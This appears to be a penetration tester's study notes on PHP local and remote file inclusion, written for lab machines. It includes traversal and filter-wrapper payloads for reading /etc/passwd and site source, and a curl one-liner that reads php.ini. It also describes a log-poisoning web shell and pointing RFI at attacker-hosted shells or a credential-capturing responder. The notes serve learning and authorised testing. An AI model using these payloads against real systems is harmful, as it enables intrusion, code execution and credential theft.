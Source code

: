 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
  - LocalFileInclude
  - RemoteFileInclude
  - LFI
  - RFI
---
```

**Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In [[PHP]] this is **disabled** by default (**allow_url_include**). 

**Local File Inclusion (LFI):** The sever loads a local file.
# Guides

1. [File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
2. [Comprehensive Guide on Local File Inclusion (LFI) - Hacking Articles](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

Check the source of the website and the website fuzzing report for potential parameters which may be vulnerable.

## Automatic Tool

1. [GitHub - kurobeats/fimap: fimap is a little python tool which can find, prepare, audit, exploit and even google automatically for local and remote file inclusion bugs in webapps.](https://github.com/kurobeats/fimap)
# Local File Include

Local File Inclusion (LFI) is a vulnerability that allows an attacker to include files on the server through the web browser. This can lead to sensitive information disclosure, code execution, and other security issues. 

To exploit LFI, an attacker needs to find a vulnerable parameter in the application that includes files. This parameter can be a URL, a file path, or any other input that gets included in the server-side code. 

There are several techniques to exploit LFI, such as directory traversal, null byte injection, and using wrappers like php://input or data://. 

1. Just try the parameter (e.g. `book.php?bookNumber=/etc/password`) and see what happens
2. Supported wrappers, see [PHP: Supported Protocols and Wrappers - Manual](https://secure.php.net/manual/en/wrappers.php)
3. If files can be viewed
	1. If the log file is available, see [[#Log Poisoning]]
	2. Search for credentials, see [[4. Post-Exploitation/Valuable Files]]
4. Potentially be able to get the source of the site using the wrappers, see [[#PHP Wrappers]]
5. Vulnerable PHP functions: require, require_once, include, include_once

## PHP Wrappers

### Website Source Retrieval

These return the Base64 of the site, see [[Base64]] to decode.

- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=view`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=upload`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=index`
### Unzip File

[[Web#ZIP Wrapper LFI]]
## LFI Bypass Filtering

See [[Web Application Firewall (WAF)]]

- Null byte: `http://10.10.10.80/?op=../../../etc/passwd%00&secretname=2f4823095649cab523452053417cded1dee9259e`
- Double encoding: `http://10.10.10.80/?op=%252e%252e%252fetc%252fpasswd&secretname=2f4823095649cab523452053417cded1dee9259e`
- Path truncation: `http://10.10.10.80/?op=../../../../[…]../../../../../etc/passwd&secretname=2f4823095649cab523452053417cded1dee9259e`
## LFI Shell

`curl -s 'http://192.168.120.85/classes/phpmailer/class.cs_phpmailer.php?classes_dir=php://filter/read=convert.base64-encode/resource=/etc/php5/apache2/php.ini%00%27%7C base64 -d 2>/dev/null`

## Log Poisoning

Log poisoning is a technique used to manipulate log files on a server by injecting malicious input. This can be used in combination with Local File Inclusion (LFI) vulnerabilities to escalate an attack. 

Effectively if you can view a log file using LFI, you can manipulate the logs by maybe inputting a username which is actually a PHP web shell, then navigating to the log file using LFI, which may run the shell.

### Walkthrough

1. [RCE via LFI Log Poisoning - The Death Potion | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d#:~:text=What%20is%20log%20poisoning%20%3F,input%20to%20the%20server%20log)

### Guide

1. Find the log file using LFI
2. Find the technology the log file is for, e.g. FTP
3. Generate a log message using that technology with a malicious entry, e.g. FTP username: `<?php system($_GET[‘commandInjection’]); ?>` 
4. Navigate to the log file using LFI
5. `_/var/log/vsftpd.log&commandInjection=ifconfig

### Log File Locations

1. `/var/log/auth.log`
2. `/var/log/vsftpd.log`

## PHP Session

If the website uses the PHP Session (PHPSESSID) cookie.
[File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php-sessions)

# Remote File Include

Remote File Inclusion (RFI) is a vulnerability similar to LFI, but instead of including local files, it includes files from a remote server. This can be particularly dangerous as it allows an attacker to execute code on the server by including a malicious file hosted on their own server.

To exploit RFI, an attacker needs to find a vulnerable parameter in the application that includes files from a remote server. This parameter can be a URL pointing to the remote file. 

1. Replace the parameter with the remote IP of your machine, e.g. `/blog/?lang=\\10.10.14.29\\test`
2. Host a Python webserver
3. Point the website at a [[Web|Web Shell]] 

## Guide

1. Point the RFI at a [[3. Exploitation/Obtaining Remote Shells/Tooling/Netcat]] to see the request made first
	1. If a [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB]] request is made, see [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide#Responder|SMB Responder]] to capture credentials
2. Can be used to check for internal ports which are open, see [[Server-side request forgery (SSRF)]]


